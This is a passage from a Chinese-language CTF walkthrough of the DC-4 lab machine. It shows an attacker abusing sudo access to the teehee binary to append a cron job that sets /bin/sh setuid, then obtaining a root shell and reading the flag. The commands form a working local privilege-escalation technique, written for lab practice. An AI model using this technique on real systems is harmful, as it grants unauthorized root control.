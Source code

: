     # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.

    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user  command
    17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
    25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    #
    ```
    > echo "* * * * * root chmod 4777 /bin/sh" | sudo teehee -a /etc/crontab 
    时间部分全部填写为*，默认这个定时任务每分钟执行一次。通过执行的脚本将 /bin/sh 的权限修改为4777，这样就可以在非root用户下执行它，并且执行期间拥有root权限。
    ```
    charles@dc-4:/home/jim$ ls -al /bin/sh
    lrwxrwxrwx 1 root root 4 Jan 24  2017 /bin/sh -> dash
    charles@dc-4:/home/jim$ /bin/sh
    # whoami
    root
    # ls /root
    flag.txt
    ```
最终打开的flag文件内容
```
root@dc-4:/root# cat flag.txt



888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.

```